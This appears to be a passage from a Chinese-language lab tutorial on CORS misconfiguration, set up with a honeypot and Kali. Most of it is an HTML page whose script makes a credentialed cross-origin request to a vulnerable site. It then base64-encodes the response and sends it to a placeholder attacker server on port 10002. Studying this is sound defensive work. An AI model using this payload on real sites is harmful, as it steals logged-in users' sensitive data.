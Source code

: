 [![](assets/1699492303-10bf254d9b263aef2d99df9eb7838a54.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108112235-0fea9d5a-7de6-1.png)  
这里要特别注意'有 CORS 漏洞的网站'写的是 127.0.0.1 是因为蜜罐是挟持访问者去访问而不是 kali 自己去访问，并且我们已经限制了 kali 无法访问到 CORS 漏洞的网站

```bash
<!DOCTYPE html>
<html>
<head>
    <title>CORS TEST</title>
</head>
<body>
    <div id='output'></div>
    <script type="text/javascript">
            var req = new XMLHttpRequest(); 
            req.onload = reqListener; 
            req.open('get','有 CORS 漏洞的网站',true); 
            //req.setRequestHeader("Content-Type","application/x-www-form-urlencoded;"); 
            req.withCredentials = true;
            req.send();
            function reqListener() {
                new Image().src="http://蜜罐服务器IP:10002/" + window.btoa(unescape(encodeURIComponent(JSON.stringify(req.responseText))))  // 要接收敏感信息的攻击机监听端口
            };
    </script>
</body>
</html>
```
